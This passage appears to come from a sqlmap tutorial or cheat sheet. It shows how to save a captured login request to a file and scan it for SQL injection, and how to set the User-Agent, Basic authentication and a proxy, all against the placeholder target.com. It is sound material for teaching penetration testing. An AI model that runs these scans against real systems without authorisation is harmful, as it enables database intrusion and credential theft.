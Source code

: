 ### Request File Testing

::: {.attack-vector .risk-high}
#### Using Saved HTTP Requests

::: code-block
    # Capture request with Burp Suite or similar
    # Save to file (e.g., request.txt)

    # Example request file content:
    POST /login HTTP/1.1
    Host: target.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 27
    Cookie: PHPSESSID=abc123

    username=admin&password=test

    # Test the saved request
    python sqlmap.py -r request.txt

    # Test specific parameter in request file
    python sqlmap.py -r request.txt -p "username"
:::
:::

### Advanced Request Handling

::: code-block
    # Custom User-Agent
    python sqlmap.py -u "http://target.com/page?id=1" \
      --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"

    # Random User-Agent
    python sqlmap.py -u "http://target.com/page?id=1" --random-agent

    # HTTP Authentication
    python sqlmap.py -u "http://target.com/page?id=1" \
      --auth-type Basic --auth-cred "admin:password"

    # Proxy Usage
    python sqlmap.py -u "http://target.com/page?id=1" \
      --proxy "http://127.0.0.1:8080"
